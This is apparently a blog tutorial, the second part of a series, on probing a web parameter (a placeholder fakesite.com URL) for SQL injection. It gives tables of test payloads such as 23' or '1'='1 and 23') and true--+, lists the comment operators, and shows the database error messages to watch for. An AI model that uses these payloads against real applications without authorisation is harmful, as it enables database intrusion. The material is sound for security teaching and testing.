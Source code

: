 ```yaml
---
coverImage: "network_for_hackers.jpg"
title: Basic of SQL for SQL Injection part 2
date: 2017-02-25
author: Abhinav Kumar
image: {
  src: "/images/SQli.jpg",
  alt: "SQL Injection",
}
description: Learn SQL Injection.
draft: false
category: WebAppSec
---
```


Welcome to the second part of basics of SQL for SQL injection. We took this url "http://fakesite.com/report.php?id=23" as an example and then assumed some basic queries by looking at the URL. Our queries were:

```
select \* from table\_name where id=23
select \* from table\_name where id='23'
select \* from table\_name where id="23"
select \* from table\_name where id=(23)
select \* from table\_name where id=('23')
select \* from table\_name where id=("23")
```

You may also encounter your input under the columns or group/order by statements but they are not common, so we will discuss them later on. Now lets continue to next step how to test with different input and know which of the above query are we dealing with.

before we start we must know different types of comments used in SQLi.
```
| Comment |  | Name |
| --- | --- | --- |
| \-- | : | MySQL Linux Style |
| \--+ | : | MySQL Windows Style |
| # | : | Hash (URL encode while use) |
| \--+- | : | SQL Comment |
| ;%00 | : | Null Byte |
| \` | : | Backtick |
```

So now lets start with out next phase. All what we need to do is input different injections and see how Application acts on it.

_**Information**_ Remember whenever the input is enclosed with single quotes only single quote with input will create error. When input is enlcosed by double quotes a double qoute with input will give error. When Input is not enlcosed with anything single quote and double quote both will give error.

First of all we can try our input with some injections to see if we get any error. Error may always not be real SQL error it may be some times generic error or change in output of the application. All you have to do it recognise it.

**MySQL Error Style**:
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```
**MSSQL ASPX Error**:
```
Server Error in '/' Application
```
**MSAccess (Apache PHP)**:
```
Fatal error: Uncaught exception 'com\_exception' with message Source: Microsoft JET Database Engine
```
**MSAccesss (IIS ASP)**:
```
Microsoft JET Database Engine error '80040e14'
```
**Oracle Error**:
```
ORA-00933: SQL command not properly ended
```
**ODBC Error**:
```
Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
```
**PostgreSQL Error**:
```
PSQLException: ERROR: unterminated quoted string at or near "'" Position: 1
or
Query failed: ERROR: syntax error at or near
"'" at character 56 in /www/site/test.php on line 121.
```
**MS SQL Server: Error**:
```
Microsoft SQL Native Client error %u201880040e14%u2019
Unclosed quotation mark after the character string
```
Now i will show you different tests to create errors and confirm which query is working inside the Application while using the same example "http://fakesite.com/report.php?id=23" url, You can perform these tests and check the reactions of the application:

```
select \* from table\_name where id=23

| Input |  | Reaction if its Intiger Based Injection |
| --- | --- | --- |
| 23' | : | It should cause error or no output |
| " | : | Should cause error or no output |
| 23 or 1=1 | : | Any Output should come but may be different output |
| 23 and 1=1 | : | Same output should come |
| 23 and false | : | No output |
| 23 and true | : | Same Output |
| 23--+ | : | Same output. I used --+ to comment, later i ll show how to know which one to use |
| 23 and true--+ | : | Same output |
```

If the Web application reacts same as shown above then you can make sure that the injection is intiger type. Now lets test for single quote enclosed input query.

```
select \* from table\_name where id='23'

| Input |  | Reaction if its Single Qoute Based Injection |
| --- | --- | --- |
| 23' | : | It should cause error or no output |
| 23" | : | No error Same output |
| 23' or '1'='1 | : | Any Output should come but may be different output |
| 23' and '1'='1 | : | Same output should come |
| 23' and false--+ | : | No output |
| 23' and true--+ | : | Same Output |
```

If the Web application reacts same as shown above then you can make sure that the injection is single quote type. Now lets test for double quote enclosed input query.

```
select \* from table\_name where id="23"

 

| Input |  | Reaction if its Double Qoute Based Injection |
| --- | --- | --- |
| 23' | : | No error Same output |
| 23" | : | \>It should cause error or no output |
| 23" or "1"="1 | : | Any Output should come but may be different output |
| 23" and "1"="1 | : | Same output should come |
| 23" and false--+ | : | No output |
| 23" and true--+ | : | Same Output |
```

If the Web application reacts same as shown above then you can make sure that the injection is Double quote type. Now lets test for bracket enclosed initger based input query.

```
select \* from table\_name where id=(23)

 

| Input |  | Reaction if its Intiger Based Bracket enclosed Injection |
| --- | --- | --- |
| 23' | : | It should cause error or no output |
| " | : | Should cause error or no output |
| 23 or 1=1 | : | Output should come but may be different output |
| 23 and 1=1 | : | Output should come but may be different output |
| 23 and false | : | No output |
| 23 and true | : | Same Output |
| 23--+ | : | Error or No output. Here you can understand that any Bracket is used |
| 23)--+ | : | Same output |
| 23) and false--+ | : | No output |
| 23) and true--+ | : | Same output |
```
If the Web application reacts same as shown above then you can make sure that the injection is Intiger type with bracket Query. Now lets test for bracket enclosed Single Quote based input query.

```
select \* from table\_name where id=('23')

 

| Input |  | Reaction if its bracket enclosed Single Quote based Injection |
| --- | --- | --- |
| 23' | : | It should cause error or no output |
| 23" | : | No error Same output |
| 23' or '1'='1 | : | Any Output should come but may be different output |
| 23' and '1'='1 | : | Any Output should come but may be different output |
| 23' and false--+ | : | No output or error |
| 23' and true--+ | : | No output or error |
| 23') and False--+ | : | No output |
| 23') and true--+ | : | Same Output |
| 23') or true--+ | : | Output will come but may be different |
```

If the Web application reacts same as shown above then you can make sure that the injection is bracket enclosed Single Quote based input query. Now lets test for bracket enclosed double Quote based input query.

```
select \* from table\_name where id=("23")

 

| Input |  | Reaction if its bracket enclosed Double Quote based Injection |
| --- | --- | --- |
| 23' | : | No error Same output |
| 23" | : | Error or No output |
| 23" or "1"="1 | : | Any Output should come but may be different output |
| 23" and "1"="1 | : | Any Output should come but may be different output |
| 23" and false--+ | : | No output or error |
| 23" and true--+ | : | No output or error |
| 23") and False--+ | : | No output |
| 23") and true--+ | : | Same Output |
| 23") or true--+ | : | Output will come but may be different |
```

If the Web application reacts same as shown above then you can make sure that the injection is bracket enclosed double Quote based input query.

So here we just learn to check which query is working inside the application, in the next tutorial we will learn two things how to use the right comment operator and how and why to find the number of columns.
